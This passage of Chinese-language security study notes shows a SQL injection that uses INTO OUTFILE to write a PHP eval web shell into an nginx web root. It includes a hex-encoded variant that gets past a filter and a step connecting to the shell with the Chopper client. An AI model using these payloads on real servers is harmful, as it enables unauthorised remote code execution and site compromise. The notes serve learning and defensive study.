 PS：如果Linux权限配置不到位，也是可以通过这种方式上传的

构造：`index.php?id=1 union select '<?php eval($_POST[bryan]); ?>',1 into outfile '/usr/share/nginx/html/xiaoma.php'`

![url_ma](004_第四周—数据库系统功能相关学习/1127869-20190824232305362-1931390351-1567178504978.png)

发现被屏蔽了，那把一句话转换为16进制字符串

> ```
> index.php?id=1 union select 0x3c3f706870206576616c28245f504f53545b627279616e5d293b203f3e,1 into outfile '/usr/share/nginx/html/xiaoma.php'
> ```

![ko](004_第四周—数据库系统功能相关学习/1127869-20190825003141234-1919359307-1567178505131.png)

PS：权限配置分明的就没法通过这个方式写入一句话了（就看安装的时候权限分配，以及网站根目录权限设置）

使用菜刀**连接一句话**木马：

![conn](004_第四周—数据库系统功能相关学习/1127869-20190825003147212-1017081493-1567178505023.png)
